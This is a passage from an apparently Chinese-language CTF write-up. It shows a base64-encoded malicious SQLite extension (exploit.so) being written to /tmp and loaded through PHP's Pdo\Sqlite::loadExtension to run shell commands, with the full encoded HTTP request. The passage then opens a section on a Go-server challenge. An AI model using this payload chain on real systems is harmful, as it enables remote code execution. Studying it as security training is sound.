AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAvdG1wLzEudHh0AHIADQoAARsDOyQAAAADAAAAEPD%2F%2F0AAAABw8P%2F%2FaAAAADnx%2F%2F%2BAAAAAAAAAABQAAAAAAAAAAXpSAAF4EAEbDAcIkAEAACQAAAAcAAAAyO%2F%2F%2F2AAAAAADhBGDhhKDwt3CIAAPxo7KjMkIgAAAAAUAAAARAAAAADw%2F%2F8IAAAAAAAAAAAAAAAcAAAAXAAAALHw%2F%2F%2FpAAAAAEEOEIYCQw0GAuQMBwgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQBEAAAAAAAAAEQAAAAAAAAEAAAAAAAAAmAAAAAAAAAAMAAAAAAAAAAAQAAAAAAAADQAAAAAAAAA0EgAAAAAAABkAAAAAAAAA8D0AAAAAAAAbAAAAAAAAAAgAAAAAAAAAGgAAAAAAAAD4PQAAAAAAABwAAAAAAAAACAAAAAAAAAD1%2Fv9vAAAAAGACAAAAAAAABQAAAAAAAACoAwAAAAAAAAYAAAAAAAAAiAIAAAAAAAAKAAAAAAAAAK4AAAAAAAAACwAAAAAAAAAYAAAAAAAAAAMAAAAAAAAA6D8AAAAAAAACAAAAAAAAAHgAAAAAAAAAFAAAAAAAAAAHAAAAAAAAABcAAAAAAAAAUAUAAAAAAAAHAAAAAAAAAJAEAAAAAAAACAAAAAAAAADAAAAAAAAAAAkAAAAAAAAAGAAAAAAAAAD%2B%2F%2F9vAAAAAHAEAAAAAAAA%2F%2F%2F%2FbwAAAAABAAAAAAAAAPD%2F%2F28AAAAAVgQAAAAAAAD5%2F%2F9vAAAAAAMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAD4AAAAAAAAAAAAAAAAAAAAAAAAAAAAANhAAAAAAAABGEAAAAAAAAFYQAAAAAAAAZhAAAAAAAAB2EAAAAAAAAChAAAAAAAAAR0NDOiAoRGViaWFuIDE1LjIuMC00KSAxNS4yLjAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAABADx%2FwAAAAAAAAAAAAAAAAAAAAAMAAAAAgAMAJAQAAAAAAAAAAAAAAAAAAAOAAAAAgAMAMAQAAAAAAAAAAAAAAAAAAAhAAAAAgAMAAARAAAAAAAAAAAAAAAAAAA3AAAAAQAXADBAAAAAAAAAAQAAAAAAAABDAAAAAQASAPg9AAAAAAAAAAAAAAAAAABqAAAAAgAMAEARAAAAAAAAAAAAAAAAAAB2AAAAAQARAPA9AAAAAAAAAAAAAAAAAACVAAAABADx%2FwAAAAAAAAAAAAAAAAAAAAABAAAABADx%2FwAAAAAAAAAAAAAAAAAAAACcAAAAAQAQALAgAAAAAAAAAAAAAAAAAAAAAAAABADx%2FwAAAAAAAAAAAAAAAAAAAACqAAAAAgANADQSAAAAAAAAAAAAAAAAAACwAAAAAQAWAChAAAAAAAAAAAAAAAAAAAC9AAAAAQATAAA%2BAAAAAAAAAAAAAAAAAADGAAAAAAAPABAgAAAAAAAAAAAAAAAAAADZAAAAAQAWADBAAAAAAAAAAAAAAAAAAADlAAAAAQAVAOg%2FAAAAAAAAAAAAAAAAAACBAQAAAgAJAAAQAAAAAAAAAAAAAAAAAAD7AAAAIAAAAAAAAAAAAAAAAAAAAAAAAAAXAQAAEgAAAAAAAAAAAAAAAAAAAAAAAAAqAQAAEgAAAAAAAAAAAAAAAAAAAAAAAAA9AQAAEgAAAAAAAAAAAAAAAAAAAAAAAABRAQAAEgAAAAAAAAAAAAAAAAAAAAAAAABjAQAAIAAAAAAAAAAAAAAAAAAAAAAAAAByAQAAEgAMAEkRAAAAAAAA6QAAAAAAAACHAQAAEgAAAAAAAAAAAAAAAAAAAAAAAACZAQAAIAAAAAAAAAAAAAAAAAAAAAAAAACzAQAAEQAXADhAAAAAAAAACAAAAAAAAAC%2FAQAAIgAAAAAAAAAAAAAAAAAAAAAAAAAAY3J0c3R1ZmYuYwBkZXJlZ2lzdGVyX3RtX2Nsb25lcwBfX2RvX2dsb2JhbF9kdG9yc19hdXgAY29tcGxldGVkLjAAX19kb19nbG9iYWxfZHRvcnNfYXV4X2ZpbmlfYXJyYXlfZW50cnkAZnJhbWVfZHVtbXkAX19mcmFtZV9kdW1teV9pbml0X2FycmF5X2VudHJ5AHJlYzMuYwBfX0ZSQU1FX0VORF9fAF9maW5pAF9fZHNvX2hhbmRsZQBfRFlOQU1JQwBfX0dOVV9FSF9GUkFNRV9IRFIAX19UTUNfRU5EX18AX0dMT0JBTF9PRkZTRVRfVEFCTEVfAF9JVE1fZGVyZWdpc3RlclRNQ2xvbmVUYWJsZQBmY2xvc2VAR0xJQkNfMi4yLjUAc3lzdGVtQEdMSUJDXzIuMi41AHN0cmNzcG5AR0xJQkNfMi4yLjUAZmdldHNAR0xJQkNfMi4yLjUAX19nbW9uX3N0YXJ0X18Ac3FsaXRlM19leHBsb2l0X2luaXQAZm9wZW5AR0xJQkNfMi4yLjUAX0lUTV9yZWdpc3RlclRNQ2xvbmVUYWJsZQBzcWxpdGUzX2FwaQBfX2N4YV9maW5hbGl6ZUBHTElCQ18yLjIuNQAALnN5bXRhYgAuc3RydGFiAC5zaHN0cnRhYgAubm90ZS5nbnUuYnVpbGQtaWQALmdudS5oYXNoAC5keW5zeW0ALmR5bnN0cgAuZ251LnZlcnNpb24ALmdudS52ZXJzaW9uX3IALnJlbGEuZHluAC5yZWxhLnBsdAAuaW5pdAAucGx0LmdvdAAudGV4dAAuZmluaQAucm9kYXRhAC5laF9mcmFtZV9oZHIALmVoX2ZyYW1lAC5pbml0X2FycmF5AC5maW5pX2FycmF5AC5keW5hbWljAC5nb3QucGx0AC5kYXRhAC5ic3MALmNvbW1lbnQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGwAAAAcAAAACAAAAAAAAADgCAAAAAAAAOAIAAAAAAAAkAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAC4AAAD2%2F%2F9vAgAAAAAAAABgAgAAAAAAAGACAAAAAAAAKAAAAAAAAAADAAAAAAAAAAgAAAAAAAAAAAAAAAAAAAA4AAAACwAAAAIAAAAAAAAAiAIAAAAAAACIAgAAAAAAACABAAAAAAAABAAAAAEAAAAIAAAAAAAAABgAAAAAAAAAQAAAAAMAAAACAAAAAAAAAKgDAAAAAAAAqAMAAAAAAACuAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAEgAAAD%2F%2F%2F9vAgAAAAAAAABWBAAAAAAAAFYEAAAAAAAAGAAAAAAAAAADAAAAAAAAAAIAAAAAAAAAAgAAAAAAAABVAAAA%2Fv%2F%2FbwIAAAAAAAAAcAQAAAAAAABwBAAAAAAAACAAAAAAAAAABAAAAAEAAAAIAAAAAAAAAAAAAAAAAAAAZAAAAAQAAAACAAAAAAAAAJAEAAAAAAAAkAQAAAAAAADAAAAAAAAAAAMAAAAAAAAACAAAAAAAAAAYAAAAAAAAAG4AAAAEAAAAQgAAAAAAAABQBQAAAAAAAFAFAAAAAAAAeAAAAAAAAAADAAAAFQAAAAgAAAAAAAAAGAAAAAAAAAB4AAAAAQAAAAYAAAAAAAAAABAAAAAAAAAAEAAAAAAAABcAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAAcwAAAAEAAAAGAAAAAAAAACAQAAAAAAAAIBAAAAAAAABgAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAAAH4AAAABAAAABgAAAAAAAACAEAAAAAAAAIAQAAAAAAAACAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAACAAAAAAAAACHAAAAAQAAAAYAAAAAAAAAkBAAAAAAAACQEAAAAAAAAKIBAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAjQAAAAEAAAAGAAAAAAAAADQSAAAAAAAANBIAAAAAAAAJAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAJMAAAABAAAAAgAAAAAAAAAAIAAAAAAAAAAgAAAAAAAAEAAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAACbAAAAAQAAAAIAAAAAAAAAECAAAAAAAAAQIAAAAAAAACQAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAAqQAAAAEAAAACAAAAAAAAADggAAAAAAAAOCAAAAAAAAB8AAAAAAAAAAAAAAAAAAAACAAAAAAAAAAAAAAAAAAAALMAAAAOAAAAAwAAAAAAAADwPQAAAAAAAPAtAAAAAAAACAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAACAAAAAAAAAC%2FAAAADwAAAAMAAAAAAAAA%2BD0AAAAAAAD4LQAAAAAAAAgAAAAAAAAAAAAAAAAAAAAIAAAAAAAAAAgAAAAAAAAAywAAAAYAAAADAAAAAAAAAAA%2BAAAAAAAAAC4AAAAAAADAAQAAAAAAAAQAAAAAAAAACAAAAAAAAAAQAAAAAAAAAIIAAAABAAAAAwAAAAAAAADAPwAAAAAAAMAvAAAAAAAAKAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAACAAAAAAAAADUAAAAAQAAAAMAAAAAAAAA6D8AAAAAAADoLwAAAAAAAEAAAAAAAAAAAAAAAAAAAAAIAAAAAAAAAAgAAAAAAAAA3QAAAAEAAAADAAAAAAAAAChAAAAAAAAAKDAAAAAAAAAIAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAAAAAAAAAAAOMAAAAIAAAAAwAAAAAAAAAwQAAAAAAAADAwAAAAAAAAEAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAAAAAAAAAAAADoAAAAAQAAADAAAAAAAAAAAAAAAAAAAAAwMAAAAAAAAB4AAAAAAAAAAAAAAAAAAAABAAAAAAAAAAEAAAAAAAAAAQAAAAIAAAAAAAAAAAAAAAAAAAAAAAAAUDAAAAAAAADoAgAAAAAAABoAAAAUAAAACAAAAAAAAAAYAAAAAAAAAAkAAAADAAAAAAAAAAAAAAAAAAAAAAAAADgzAAAAAAAA2gEAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAARAAAAAwAAAAAAAAAAAAAAAAAAAAAAAAASNQAAAAAAAPEAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAA%22%3B%0A%0Afile%5Fput%5Fcontents%28%22%2Ftmp%2Fexploit%2Eso%22%2Cbase64%5Fdecode%28%24base64%5Fso%29%29%3B
```

然后就getshell了

```php
file_put_contents("/tmp/1.txt","cat /flag_141f80cc2-4400-45f0-9399-4900efb730f5 > /tmp/4.txt");
$db = new Pdo\Sqlite('sqlite::memory:');
$db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
$db->loadExtension('/tmp/exploit.so');
echo file_get_contents("/tmp/4.txt");
```

发包

```http
POST / HTTP/1.1
Host: 173.32.20.181
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 496

%73%6f%5f%65%7a%21%6b%31%64%64%69%26%67%3f=file%5Fput%5Fcontents%28%22%2Ftmp%2F1%2Etxt%22%2C%22cat%20%2Fflag%5F141f80cc2%2D4400%2D45f0%2D9399%2D4900efb730f5%20%3E%20%2Ftmp%2F4%2Etxt%22%29%3B%0D%0A%24db%20%3D%20new%20Pdo%5CSqlite%28%27sqlite%3A%3Amemory%3A%27%29%3B%0D%0A%24db%2D%3EsetAttribute%28PDO%3A%3AATTR%5FERRMODE%2C%20PDO%3A%3AERRMODE%5FEXCEPTION%29%3B%0D%0A%24db%2D%3EloadExtension%28%27%2Ftmp%2Fexploit%2Eso%27%29%3B%0D%0Aecho%20file%5Fget%5Fcontents%28%22%2Ftmp%2F4%2Etxt%22%29%3B%0D%0A
```

### go-server

go 语言的 xss，还有 docker daemon集群的点，非常不错的一道题

```go
tempFile, err := os.CreateTemp(uploadDir, fileInfo.Filename)
if err != nil {
    http.Error(w, "Failed to create temporary file", http.StatusInternalServerError)
    fmt.Println("Failed to create temporary file:", err)
    return
}
defer tempFile.Close()
```

Go 语言 `os.CreateTemp` 的特殊行为：

